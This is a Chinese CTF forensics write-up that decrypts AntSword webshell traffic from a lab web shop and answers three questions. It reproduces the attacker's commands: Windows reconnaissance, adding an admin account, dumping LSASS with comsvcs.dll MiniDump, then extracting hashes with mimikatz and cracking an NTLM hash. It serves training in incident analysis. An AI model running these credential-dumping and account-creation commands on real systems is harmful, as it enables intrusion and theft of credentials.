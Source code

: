 # 第六章-流量特征分析-蚂蚁爱上树

  
  
&lt;!--more--&gt;  
## 0x00 环境分析  
```txt  
1. 管理员Admin账号的密码是什么？  
2. LSASS.exe的程序进程ID是多少？  
3. 用户WIN101的密码是什么?  
```  
## 0x01  
`/onlineshop/product2.php`蚁剑马，对流量进行解密  
```bash  
cd /d &#34;C:/phpStudy/PHPTutorial/WWW/onlineshop&#34;&amp;ls&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;dir&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;whoami&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;whoami /priv&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;systeminfo&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;dir c:\&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;dir c:\temp&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;net user&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;net localgroup administrators&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;net group &#34;domain group&#34; /domain&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;net group &#34;domain admins&#34; /domain&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;net view&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;net share&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;rundll32.exe comsvcs.dll, MiniDump 852 C:\Temp\OnlineShopBackup.zip full&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;net localgroup administrators admin /add&amp;echo [S]&amp;cd&amp;echo [E]  
```  
1、管理员Admin账号的密码是什么？  
`cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;net user admin Password1 /add&amp;echo [S]&amp;cd&amp;echo [E]`  
根据上面流量，得到是`Password1`  
`flag{Password1}`  
2、LSASS.exe的程序进程ID是多少？  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406011906565.png)
解密流量得到  
`cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;rundll32.exe comsvcs.dll, MiniDump 852 C:\Temp\OnlineShopBackup.zip full&amp;echo [S]&amp;cd&amp;echo [E]`  
https://zhuanlan.zhihu.com/p/346022067  
其中  
`rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump pid lsass.dmp full&#34;`  
`flag{852}`  
3、用户WIN101的密码是什么?  
下载上面得到的lsass进程  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406011924805.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406011924281.png)
在这里进行了文件读取的操作，将回显下载下来  
选择原始数据进行导出  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406012001733.png)
删除前面多余的字符便是正常的 dmp 文件  
利用`mimikatz`进行解密  
`sekurlsa::minidump lsass.dmp`  
`sekurlsa::logonpasswords`  
```cmd  
SID               : S-1-5-21-3374851086-947483859-3378876003-1103  
        msv :  
         [00000003] Primary  
         * Username : win101  
         * Domain   : VULNTARGET  
         * NTLM     : 282d975e35846022476068ab5a3d72df  
         * SHA1     : bc9ecca8d006d8152bd51db558221a0540c9d604  
         * DPAPI    : 8d6103509e746ac0ed9641f7c21d7cf7  
        tspkg :  
        wdigest :  
         * Username : win101  
         * Domain   : VULNTARGET  
         * Password : (null)  
        kerberos :  
         * Username : win101  
         * Domain   : VULNTARGET.COM  
         * Password : (null)  
        ssp :  
        credman :  
        cloudap :  
  
Authentication Id : 0 ; 995 (00000000:000003e3)  
Session           : Service from 0  
User Name         : IUSR  
Domain            : NT AUTHORITY  
Logon Server      : (null)  
Logon Time        : 2023/10/19 11:26:36  
SID               : S-1-5-17  
```  
解密一下`NTLM`  
得到密码  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406012004146.png)
`flag{admin#123}`  

---

> Author: N1Rvana  
> URL: http://localhost:1313/%E7%AC%AC%E5%85%AD%E7%AB%A0-%E6%B5%81%E9%87%8F%E7%89%B9%E5%BE%81%E5%88%86%E6%9E%90-%E8%9A%82%E8%9A%81%E7%88%B1%E4%B8%8A%E6%A0%91/  

